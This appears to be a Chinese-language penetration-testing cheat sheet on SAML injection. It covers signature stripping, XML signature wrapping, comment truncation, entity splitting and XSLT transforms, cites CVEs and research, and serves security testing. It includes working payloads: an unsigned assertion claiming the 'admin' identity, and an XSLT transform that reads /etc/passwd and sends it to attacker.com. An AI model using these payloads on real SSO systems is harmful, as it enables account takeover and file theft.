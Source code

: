 # SAML 注入

> 安全声明标记语言 (SAML) 是一个开放标准，允许安全凭证有网络上多台计算机进行共享。使用基于SAML的单一登陆时(SSO)，涉及到三个部分，一个用户(所谓的委托人)，一个IDentity Provider(IDP)和一个云应用程序服务提供商(SP) -- centrify

## 概要

* [Tools](#tools)
* [Authentication Bypass](#authentication-bypass)
	* [Invalid Signature](#invalid-signature)
	* [Signature Stripping](#signature-stripping)
	* [XML Signature Wrapping Attacks](#xml-signature-wrapping-attacks)
	* [XML Comment Handling](#xml-comment-handling)
	* [XML External Entity](#xml-external-entity)
	* [Extensible Stylesheet Language Transformation](#extensible-stylesheet-language-transformation)

## Tools

- [SAML Raider - Burp Extension](https://github.com/SAMLRaider/SAMLRaider)


## Authentication Bypass

SAML响应应该包含`<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`.

### Invalid Signature

未经真实CA签名的签名容易被克隆。请确保签名是由真实的CA签名的。如果证书是自签名的，则可以克隆该证书或创建自己的自签名证书来替换它。

### Signature Stripping

> [...]accepting unsigned SAML assertions is accepting a username without checking the password - @ilektrojohn

目标是在不签名的情况下创建一个格式良好的SAML断言。对于某些默认配置，如果在SAML响应中省略签名部分，则不执行签名验证。

SAML断言的示例，其中“NameID=admin”没有签名.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-0422T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
                <saml2:Audience>WLS_SP</saml2:Audience>
            </saml2:AudienceRestriction>
        </saml2:Conditions>
        <saml2:AuthnStatement AuthnInstant="2018-04-22T10:28:49.876Z" SessionIndex="id1524392933593.694282512" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AuthnContext>
                <saml2:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml2:AuthnContextClassRef>
            </saml2:AuthnContext>
        </saml2:AuthnStatement>
    </saml2:Assertion>
</saml2p:Response>
```

### XML Signature Wrapping Attacks

XML签名包装（XSW）攻击，有些实现检查有效签名并将其与有效断言匹配，但不检查多个断言、多个签名，或根据断言的顺序采取不同的行为。

- XSW1–适用于SAML响应消息。在现有签名之后添加响应的克隆未签名副本。
- XSW2–适用于SAML响应消息。在现有签名之前添加响应的克隆未签名副本。
- XSW3–适用于SAML断言消息。在现有断言之前添加断言的克隆未签名副本。
- XSW4–适用于SAML响应消息。在现有签名之后添加响应的克隆未签名副本。
- XSW5–适用于SAML断言消息。更改断言的签名副本中的值，并添加原始断言的副本，在SAML消息的末尾删除签名。
- XSW6–适用于SAML断言消息。更改断言的签名副本中的值，并添加原始断言的副本，在原始签名之后删除签名。
- XSW7–适用于SAML断言消息。添加带有克隆的无符号断言的“扩展”块。
- XSW8–适用于SAML断言消息。添加一个“Object”块，其中包含删除签名的原始断言的副本。


在下面的示例中，将使用这些术语。

- FA：伪造的断言
- LA:   合法主张
- LAS:   合法主张的签名

```xml
<SAMLResponse>
  <FA ID="evil">
      <Subject>Attacker</Subject>
  </FA>
  <LA ID="legitimate">
      <Subject>Legitimate User</Subject>
      <LAS>
         <Reference Reference URI="legitimate">
         </Reference>
      </LAS>
  </LA>
</SAMLResponse>
```

在Github企业漏洞中，此请求将验证并为“攻击者”而不是“合法用户”创建会话，即使“FA”未签名。


### XML Comment Handling

已经对SSO系统的访问进行了身份验证的威胁参与者可以作为另一个用户进行身份验证，而无需该用户的SSO密码。此[漏洞]（https://www.bleepstatic.com/images/news/u/986406/attacks/Vulnerabilities/SAML-flucture.png）在以下库和产品中具有多个CVE。

- OneLogin - python-saml - CVE-2017-11427
- OneLogin - ruby-saml - CVE-2017-11428
- Clever - saml2-js - CVE-2017-11429
- OmniAuth-SAML - CVE-2017-11430
- Shibboleth - CVE-2018-0489
- Duo Network Gateway - CVE-2018-7340

研究人员已经注意到，如果攻击者在用户名字段中插入注释，从而破坏用户名，则攻击者可能获得对合法用户帐户的访问权限。

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```

其中“user@user.com”是用户名的第一部分，“evil.com”是第二部分。

### XML External Entity

另一种利用此漏洞的方法是使用“XML entities”绕过签名验证，因为除了在XML解析期间，内容不会更改。

In the following example:

- `&s;`将解析为字符串`"s"`
- `&f1;` 将解析为字符串 `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

服务提供者接受SAML响应。由于该漏洞，服务提供程序应用程序将“taf”报告为“uid”属性的值。


### Extensible Stylesheet Language Transformation

可以使用“transform”元素执行XSLT。

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)    
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

## References

- [SAML Burp Extension - ROLAND BISCHOFBERGER - JULY 24, 2015](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [The road to your codebase is paved with forged assertions - @ilektrojohn - March 13, 2017](http://www.economyofmechanism.com/github-saml)
- [SAML_Security_Cheat_Sheet.md - OWASP](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
- [On Breaking SAML: Be Whoever You Want to Be - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann, and Meiko Jensen](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
- [Making Headlines: SAML - March 19, 2018 - Torsten George](https://blog.centrify.com/saml/)
- [Vulnerability Note VU#475445 - 2018-02-27 - Carnegie Mellon University](https://www.kb.cert.org/vuls/id/475445/)
- [ORACLE WEBLOGIC - MULTIPLE SAML VULNERABILITIES (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - Jul 18, 2018](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
- [Truncation of SAML Attributes in Shibboleth 2 - 2018-01-15 - redteam-pentesting.de](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)
- [Attacking SSO: Common SAML Vulnerabilities and Ways to Find Them - March 7th, 2017 - Jem Jensen](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
- [How to Hunt Bugs in SAML; a Methodology - Part I - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
- [How to Hunt Bugs in SAML; a Methodology - Part II - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
- [How to Hunt Bugs in SAML; a Methodology - Part III - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
